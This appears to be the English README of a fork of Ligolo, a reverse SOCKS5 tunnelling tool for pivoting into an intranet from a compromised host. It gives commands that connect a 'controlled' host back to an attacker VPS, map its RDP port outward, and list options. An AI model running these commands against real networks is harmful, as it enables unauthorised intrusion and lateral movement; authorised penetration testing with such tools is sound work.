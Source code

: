 # Ligolo: Reverse tunnel for intranet penetration

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

English | [简体中文](./README.md)

## introduce

The project is modified according to [ligolo](https://github.com/sysdream/ligolo), mainly for some functional tailoring, which is convenient to use.

**Ligolo** is a simple, lightweight reverse Socks5 proxy tool, all traffic is encrypted with TLS.

Its function is similar to *Autoroute + Socks4a* in *Meterpreter*, but it is more stable and faster.

## why you need this

When you have obtained the permission of a Windows / Linux / Mac host on the other party's intranet and the host can connect to the Internet.

At this point you want to establish a Socks5 proxy for the other party's intranet.

**Ligolo** can help you establish an agent to help you continue to penetrate the intranet.

> If the controlled host cannot access the Internet, you can try another tool [pystinger](https://github.com/FunnyWolf/pystinger)

## Instructions

### TL;DR

- Get the compiled binary file [release](https://github.com/FunnyWolf/ligolo/releases)

- In your VPS hosting.

```
./ligolos
```

- In the controlled intranet host.

```
> ligoloc.exe -s your-vps-ip:443
```

- After the connection is successfully established, the 127.0.0.1:1080 of the VPS has established the Socks5 proxy for the internal network of the controlled host.

### Detailed description

*Ligolo* contains two modules:

- ligolos (server)
- ligoloc (client)

*ligolos* runs on your VPS server (attack server).

*ligoloc* runs on an already controlled intranet host.

*ligolos* can use the default settings. It will listen on port 0.0.0.0:443 (for waiting for ligoloc connection) and 127.0.0.1:1080 (for socks5 proxy).

*ligoloc* The server address must be specified when running, using the parameter `-s your-vps-ip:443`.

You can use the `-h` parameter to view the help.

Once the connection between *ligolos* and *ligoloc* is established, you can use the intranet socks5 proxy of the VPS server `127.0.0.1:1080`.


### Reverse portfwd
- In your VPS host
```
./ligolos -p 0.0.0.0:13389
```
- In controlled intranet host
```
> ligoloc. exe -s your-vps-ip:443 -t 127.0.0.1:3389
```
- After the connection is established successfully, the intranet host 127.0.0.1:3389 has been mapped to vps-ip:13389


### Options

*ligolos* options:

```
PS D:\xxx\bin> .\ligolos.exe -h
Usage of D:\xxx\ligolos.exe:
  -cert string
        The TLS server certificate,Unnecessary (default "cert.pem")
  -key string
        The TLS server key,Unnecessary (default "key.pem")
  -l string
        The relay server listening address (the connect-back address) (default "0.0.0.0:443")
  -p string
        The local socks5 server address or ip:port use to connect target (default "127.0.0.1:1080")
```

*ligoloc* options:

```
Usage of D:\XXX\ligoloc.exe:
  -proxy string
        Use proxy to connect ligolo server(e.g. http://user:passwd@192.168.1.128:8080 socks5://user:passwd@192.168.1.128:1080)
  -s string
        The ligolo server (the connect-back address)(e.g. 0.0.0.0:443)
  -t string
        The destination server (a 192.168.1.3:3389, 192.168.1.3:22, etc.) - when not specified, Ligolo starts a socks5 proxy server
```


### Compile

Refer to the compilation method of the original ligolo

## Features

- TLS 1.3 encrypted tunnel
- Multi-platform (Windows / Linux / Mac /...)
- Multiple connection multiplexing (1 TCP connection transmits all traffic)
- SOCKS5 proxy

## To Do

- Better timeout mechanism
- SOCKS5 UDP support
- mTLS mutual authentication
- Reverse port mapping (mapping intranet port to internet)

## Licensing

GNU General Public License v3.0 (refer to LICENSING).

## Original author

* Nicolas Chatelain <n.chatelain -at- sysdream.com>